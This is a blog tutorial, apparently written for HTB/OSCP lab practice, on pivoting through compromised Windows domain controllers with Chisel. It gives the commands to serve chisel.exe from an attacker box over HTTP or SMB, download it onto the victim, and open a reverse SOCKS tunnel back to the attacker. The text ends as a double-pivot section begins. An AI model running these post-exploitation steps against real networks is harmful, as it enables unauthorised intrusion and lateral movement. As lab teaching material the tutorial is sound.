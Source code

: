 ```yaml
---
layout: post
title:  "Pivoting with Chisel - Part 2"
author: nanobyte
date:   2023-06-26
description: Part 2 of my pivoting basics, and how to use Chisel
tags: HTB OSCP Pivoting
---
```


<h3>Pivoting with Chisel - Part 2</h3>

This is a continuation of my Pivoting Basics, and Part 2, and how to use Chisel to pivot. Part 1 dove into what pivoting was, and how to pivot with SSHuttle. In this post, I will continue from where we left off. As a reminder, here is our scenario:

For the following scenario, and for the rest of my walkthroughs, the following will remain true:

Kali Linux (Attacking Machine): 10.10.15.100
First Pivot Machine (Public IP): 10.10.110.10
First Network: 172.18.1.0/24
Second Network: 172.18.2.0/24
Second Pivot Machine: 172.18.2.15
Third Network: 172.18.3.0/24
Third Pivot Machine: 172.18.3.20

We are picking up from where Part 1 left off, with an established SSHuttle session to 172.18.1.0/24. At this point, I will assume you have comrpomised DC01, and have discovered 172.18.2.0/24, with DC02:

<img src="/images/posts/pivoting/Pivoting_Part2_Initial.PNG" alt="pivoting-part2-initial" width="700"/>

<h3>Chisel Server</h3>

First, you will need Chisel. Head to the GitHub, and download Chisel from Releases for the architecrture of the victim, and for your Kali. I will assume that the victim is Windows. [Here is the GitHub for Chisel](https://github.com/jpillora/chisel).

Before we run anything, we first need to modify /etc/proxychains4.conf file on our Kali Linux. Add the following to the bottom of the file:

{% highlight bash linenos %}
socks5 127.0.0.1 1080
{% endhighlight %}

The above line adds a SOCKS5 proxy, on localhost (127.0.0.1) at port 1080. Once complete, we can stasrt our chisel listener on our Kali machine. In a terminal, run the following command:

{% highlight bash linenos %}
./chisel server -p 80 --reverse
{% endhighlight %}

The above starts chisel, running it as a server, with the following parameters:

+ -p : listening on port 80. Why port 80? Because often unrecognized or unusual ports may be blocked by firewall rules.
+ --reverse 

Now that there is a Chisel server that is listening, we now would need to drop Chisel onto the Windows DC01 machine. Here are my two methods that can accomplish this:

<h4>HTTP</h4>

First, from your Kali machine, with a terminal open to the directory with your chisel.exe file, start a Python http server:

{% highlight bash linenos %}
python -m http.server 80
{% endhighlight %}

This will start a web server using port 80 on your Kali machine. From the DC01 victim machine, use PowerSHell's Invoke-WebRequest cmdlet to download chisel.exe:

{% highlight bash linenos %}
Invoke-WebRequest -URI http://10.10.15.100/chisel.exe -OutFile chisel.exe
{% endhighlight %}

<h4>SMB</h4>

In some cases, http may be restricted. You can then use impacket's smb server. Start the smb server using terminal open to the directory with your chisel.exe file:

{% highlight bash linenos %}
impacket-smbserver share . -smb2support
{% endhighlight %}

The above starts a smb server on your Kali machine, where:

+ share : the name of your share, this can be anything, this is my goto share name
+ . : This is the directory you wish to share. A period represents the current directory
+ -smb2support : Support for SMBv2

Once this is running, from the DC02 victim machine, copy the chisel.exe file:

{% highlight bash linenos %}
copy \\10.10.15.100\share\chisel.exe .
{% endhighlight %}

This will copy chisel.exe to the current working directory on the DC01 machine.

<h3>Chisel Client</h3>

Now, with Chisel on the victim, we can connect our DC01 agent to our Kali server. This is completed by running the following connand:

{% highlight bash linenos %}
./chisel.exe client 10.10.15.100:80 R:1080:socks
{% endhighlight %}

The above starts Chisel as a client on the victim, and connects back to our Kali machine:

+ 10.10.15.100:80 : The IP address and port, separated by a colon, of our Kali machine
+ R:1080:socks : A reverse proxy, using port 1080, using a SOCKS proxy. Important! Port 1080 is the port we used in our /etc/proxychains4.conf file, and must match!

Once the client is connected, we can begin to tunnel our traffic into the second network, 172.18.2.0/24, and has access to DC02:

<img src="/images/posts/pivoting/Pivoting-Chisel-1080.PNG" alt="pivoting-part2-chisel-1080" width="700"/>

<h3>Double Chisel Pivot!</h3>

Now that we have one chisel agent running, assume we compromised DC02, and now found a final machine, FS01. Assume that FS01 is within our third network, 172.18.3.0/24:


